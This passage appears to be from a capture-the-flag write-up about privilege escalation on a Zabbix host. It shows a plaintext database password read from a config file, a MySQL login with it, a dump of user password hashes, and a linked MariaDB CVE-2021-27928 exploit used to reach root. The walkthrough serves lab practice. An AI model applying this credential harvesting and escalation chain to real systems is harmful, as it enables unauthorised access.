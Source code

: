 ```

```

╔══════════╣ Analyzing Zabbix Files (limit 70)
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1
```

Logged in the Mysql Database

```
mysql -u zabbix -pbloooarskybluh -h 127.0.0.1 zabbix
```

and found so many table(```users``` table is the one I found interesting).

```
select * from users;
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+-------------+---------------+---------------+
| userid | alias         | name         | surname       | passwd                                                       | url | autologin | autologout | lang  | refresh | type | theme      | attempt_failed | attempt_ip  | attempt_clock | rows_per_page |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+-------------+---------------+---------------+
|      1 | Admin         | Zabbix       | Administrator | $2y$10$L9tjKByfruByB.BaTQJz/epcbDQta4uRM/KySxSZTwZkMGuKTPPT2 |     |         0 | 0          | en_GB | 60s     |    3 | dark-theme |              5 | 10.10.17.97 |    1648879891 |            50 |
|      2 | guest         |              |               | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |     |         0 | 15m        | en_GB | 30s     |    1 | default    |              0 |             |             0 |            50 |
|      3 | Administrator | IPMI Service | Account       | $2y$10$FhkN5OCLQjs3d6C.KtQgdeCc485jKBWPW4igFVEgtIP3jneaN7GQe |     |         0 | 0          | en_GB | 60s     |    2 | default    |              5 | 10.10.17.97 |    1648879896 |            50 |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+-------------+---------------+---------------+
```

Tried to decrypt the hashed password but in vain. Got no successful results.

#### MariaDB CVE-2021-27928 vulnerabiltity

A remote code execution issue was discovered in MariaDB . An untrusted search path leads to eval injection, in which a 
database SUPER user can execute OS commands after modifying wsrep_provider and wsrep_notify_cmd.

Used the exploit here(https://github.com/Al1ex/CVE-2021-27928).

and yay got the root access.